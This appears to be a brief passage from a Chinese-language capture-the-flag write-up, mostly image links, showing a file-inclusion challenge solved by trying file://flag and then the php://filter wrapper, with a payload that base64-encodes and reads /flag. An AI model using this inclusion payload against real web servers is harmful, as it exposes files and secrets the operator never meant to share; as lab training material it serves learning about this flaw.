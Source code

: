 ![img](./assets/wps414.jpg)

 

输入file://flag

![img](./assets/wps415.jpg) 

 

![img](./assets/wps416.jpg) 

访问该路径

![img](./assets/wps417.jpg) 

php://filter

伪协议读取/flag

 

构造payload：

?file=php://filter/read=convert.base64-encode/resource=/flag

![img](./assets/wps418.jpg) 

 

 